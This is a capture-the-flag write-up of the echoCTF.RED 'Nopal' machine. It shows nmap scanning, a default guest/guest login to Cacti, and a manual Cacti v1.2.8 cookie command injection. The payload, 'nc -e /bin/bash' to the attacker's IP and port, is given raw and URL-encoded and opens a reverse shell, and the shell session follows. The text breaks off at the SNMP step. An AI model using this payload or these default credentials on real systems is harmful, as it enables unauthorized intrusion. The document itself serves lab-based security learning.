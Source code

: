 ```yaml
---
layout: default
title : muzec - Nopal - echoCTF.RED
---
```



### Enumeration With Nmap

`nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.30.124`

```
# Nmap 7.91 scan initiated Fri Dec  3 09:28:53 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.30.124
Warning: 10.0.30.124 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.0.30.124 from 320 to 640 due to 229 out of 762 dropped probes since last increase.
Increasing send delay for 10.0.30.124 from 640 to 1000 due to 136 out of 451 dropped probes since last increase.
Nmap scan report for 10.0.30.124
Host is up (0.14s latency).
Not shown: 37499 filtered ports, 28035 closed ports
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec  3 09:30:16 2021 -- 1 IP address (1 host up) scanned in 82.67 seconds
```

Now let use nmap default script and service detection to get more information from the target.

`nmap -sC -sV -oA nmap/normal -p 80 10.0.30.124`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ nmap -sC -sV -oA nmap/normal -p 80 10.0.30.124            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-03 09:58 WAT
Nmap scan report for 10.0.30.124
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

Man am so excited over pwning Nopal man it was awesome i learn something new which is awesome so much awesome so without wasting to much of our time let just jump in since we have only HTTP port let hit it.

![image](https://user-images.githubusercontent.com/69868171/144599402-b7f2950b-5f34-4c5a-ae24-7d6dffaac686.png)

Now we have a login page wich is in need of a credentials and we have the version also before jumping in first what is cacti.

### CACTI

Cacti is an open-source, web-based network monitoring and graphing tool designed as a front-end application for the open-source, industry-standard data logging tool RRDtool. Cacti allows a user to poll services at predetermined intervals and graph the resulting data.

Now time to hit some research finding some default credentials luckily i came accross `guest/guest` and boom we are in.

![image](https://user-images.githubusercontent.com/69868171/144600226-fcf4ed27-f4ad-4a6b-b891-4806399193e3.png)


Now since we know the version let try find some exploit if it vulnerable. Found some interesting but it was in metasploit module so i try doing it manaully.

![image](https://user-images.githubusercontent.com/69868171/144600509-06f33c85-cf04-4e36-ad0d-f66da80b6b1f.png)

Boom yes it a Remote Code Execution exploit so let run it manaully.

### Cacti v1.2.8 Remote Code Execution Manually


![image](https://user-images.githubusercontent.com/69868171/144601048-8e96f891-db7c-43d7-8348-a46cdba882b9.png)

Navigating to `http://10.0.30.124/cacti/graph_realtime.php?action=countdown&top=0&left=0&local_graph_id=1826` so let intercept it using burp suite and send to repeater.

![image](https://user-images.githubusercontent.com/69868171/144601308-f33ad141-8ef9-424d-8712-ce05d9ce43df.png)

Right click and send to repeater.

![image](https://user-images.githubusercontent.com/69868171/144601464-ce352260-3406-4d2e-a3b5-9952c69688a8.png)

The vulnerable part is the Cookie session so we will be injecting our payload to the cookie.

![image](https://user-images.githubusercontent.com/69868171/144601984-cf287f62-b5be-413c-9f7c-5e2df0761eee.png)

If we want to use netcat to gain a shell, we need to create the following payload:

```
;nc${IFS}-e${IFS}/bin/bash${IFS}ip${IFS}port
```

I got an idea to use `${IFS}` bash variable which represent a space. And of course we need to escape the command using `;` to be like the above one.

Lets try it and see the results by encoding the payload first:

```
%3Bnc%24%7BIFS%7D%2De%24%7BIFS%7D%2Fbin%2Fbash%24%7BIFS%7D10%2E10%2E0%2E186%24%7BIFS%7D1337
```

![image](https://user-images.githubusercontent.com/69868171/144602556-3283b87c-47c9-41bf-9b30-4e766dd16d30.png)

Now let start our Ncat listener before running the payload.

![image](https://user-images.githubusercontent.com/69868171/144602636-6266aa16-512b-4359-841d-e09a90c62897.png)

Now we are ready let inject our payload and send.

![image](https://user-images.githubusercontent.com/69868171/144602771-fbac3201-0c72-4f83-ab5c-362ae5c5fdce.png)

Now send let check our Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/144603088-f3d23c5e-d345-43fd-bda8-306d7c6dc4a0.png)

Boom we have shell let spawn a tty shell to make our shell more stable.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ nc -nvlp 1337                                 
listening on [any] 1337 ...
connect to [10.10.0.186] from (UNKNOWN) [10.0.30.124] 43204
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn ("/bin/bash")'
www-data@nopal:/opt/cacti$ ^Z
zsh: suspended  nc -nvlp 1337
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ stty raw -echo;fg                                                                                                                                        148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 1337

www-data@nopal:/opt/cacti$ stty rows 17 cols 190
www-data@nopal:/opt/cacti$ export TERM=xterm
www-data@nopal:/opt/cacti$ 
```

![image](https://user-images.githubusercontent.com/69868171/144603333-56b1cbb2-a5af-473e-b7bd-3c55c0cd6c36.png)

We have one flag `/etc/passwd` four more to go let check what ports we have running locally.

```
www-data@nopal:/opt/cacti$ ss -tulpn
Netid  State      Recv-Q Send-Q                                               Local Address:Port                                                              Peer Address:Port              
udp    UNCONN     0      0                                                       127.0.0.11:42609                                                                        *:*                  
udp    UNCONN     0      0                                                        127.0.0.1:161                                                                          *:*                  
tcp    LISTEN     0      80                                                       127.0.0.1:3306                                                                         *:*                  
tcp    LISTEN     0      128                                                              *:80                                                                           *:*                   users:(("nginx",pid=420,fd=6))
tcp    LISTEN     0      128                                                     127.0.0.11:45841                                                                        *:*                  
www-data@nopal:/opt/cacti$ 
```
Seems we have SNMP port running let check for conf file.

![image](https://user-images.githubusercontent.com/69868171/144604042-be1fc891-607c-4d8e-b07e-0dbecc96cc7f.png)

`cat /etc/snmp/snmpd.conf` we have another flag which is cool but about the conf file something stand out `extend etsctf /tmp/snmpd-tests.sh` seems like to possible for us to get RCE with SNMP. So let do some research on it.


### SNMP RCE

